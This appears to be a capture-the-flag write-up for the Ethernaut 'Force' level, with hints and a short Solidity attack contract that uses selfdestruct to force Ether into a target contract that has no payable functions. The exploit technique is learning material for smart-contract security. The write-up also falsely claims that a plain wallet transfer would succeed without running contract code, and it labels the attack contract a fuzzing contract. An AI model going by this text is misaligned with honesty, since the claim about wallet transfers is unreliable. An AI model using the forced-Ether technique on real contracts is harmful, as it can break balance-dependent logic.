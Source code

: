 # Force Ethernaut

## Goals

=> The goal of this level is to make the balance of the contract greater than zero.

### Hints

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.

### Solution

- Self-destruct: Another option is to send ETH to the contract by using the self-destruct function of another contract. This involves creating a new contract that sends the Ether to the target contract before self-destructing

- You can also send Ether to the contract from an external wallet by using the contract's address as the recipient. However, this will not execute any contract code and will simply transfer Ether to the address without any further action.

### Fuzzing Contract

```solidity
contract Hack {
    Force force;

    constructor(address payable _force) {
        force = Force(_force);
    }

    function sendEther() public payable {
        selfdestruct(payable(address(force)));
    }

}
```
